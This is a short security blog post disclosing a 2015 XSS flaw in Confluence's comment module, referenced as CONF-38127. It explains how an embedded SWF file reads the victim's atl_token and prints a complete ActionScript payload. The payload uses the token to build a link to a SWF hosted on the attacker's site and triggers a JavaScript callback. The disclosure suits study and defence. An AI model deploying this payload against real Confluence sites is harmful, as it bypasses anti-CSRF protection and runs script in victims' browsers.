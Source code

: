 ```yaml
---
title: XSS on confluence comment module
date: 2016-05-11 00:00:00 +02:00
categories:
- XSS
- SWF
layout: post
excerpt: On `02/Jul/2015 3:27 AM` i found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127
comments: true
---
```


On `02/Jul/2015 3:27 AM` I found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127

In confluence comment module, User can upload and embed the swf file in their comment. Confluence is using an `atl_token` parameter on GET HTTP request, if the attacker sends the link of .SWF file( the value of src on embed tag) to his victim the malicious SWF file won’t execute on the victim’s browser. Every user has atl_token. This is a CSRF protection and XSS protection too. We can bypass this protection by using `this.loaderInfo.parameters` in malicious .SWF. `this.loaderInfo.parameters.parameter_name` extracts the value of your target parameter, in this case, it `is atl_token`. The attacker must also insert a `<a>` tag in malicious SWF file then append the extracted atl_token to `<a>` tag , so if the victim clicks the link(`<a>`) in our embed SWF file, the .SWF file will be executed in the victim’s browser.

## Payload

{% highlight text %}
package
{
import flash.display.Sprite;
import flash.text.TextFormat;
import flash.text.TextField;
import flash.external.ExternalInterface;

public class Main extends Sprite
{

public function Main()
{
super();
var myFormat:TextFormat = new TextFormat();
myFormat.size = 200;
var xcode:String = this.loaderInfo.parameters.atl_token;
var myText:TextField = new TextField();
myText.width = 1000;
myText.height = 1000;
myText.htmlText = "<font size=\'300px\'> <a target=\'_blank\' href=\'https://pwnie.ninja/confluence/download/attachments/9469955/NewProjectx.swf?atl_token=" + xcode + "&callback=alert\'>CliCK ME</a> </font>";
addChild(myText);
ExternalInterface.call(this.loaderInfo.parameters.callback,"xss");
}
}
}
{% endhighlight %}


## References:
* [Jira Report](https://jira.atlassian.com/browse/CONF-38127)
* [Loaderinfo-parameter-in AS3](http://stackoverflow.com/questions/6057211/loaderinfo-parameters-in-as3)
